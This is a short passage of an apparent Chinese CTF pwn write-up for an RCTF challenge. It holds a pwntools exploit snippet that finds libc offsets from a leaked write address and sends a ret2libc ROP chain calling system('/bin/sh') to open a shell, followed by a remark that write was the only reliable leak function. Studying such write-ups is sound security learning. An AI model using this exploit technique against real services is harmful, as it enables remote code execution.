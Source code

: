 ```python
Searcher=LibcSearcher('write',0x2b0)
offset=write_got-Searcher.dump("write")
system=Searcher.dump("system")+offset
binsh=Searcher.dump("str_bin_sh")+offset
res.recvuntil('RCTF\n')
payload='a'*0x10+'b'*0x8+p64(clean_padding)+p64(pop_rdi)+p64(binsh)+p64(system)
res.sendline(payload)
res.interactive()

```

这道题还有非常坑的一点，puts函数和printf函数失效，看来还是用write来泄漏地址最稳定。

*学到许多阿。pwn真是太益智了。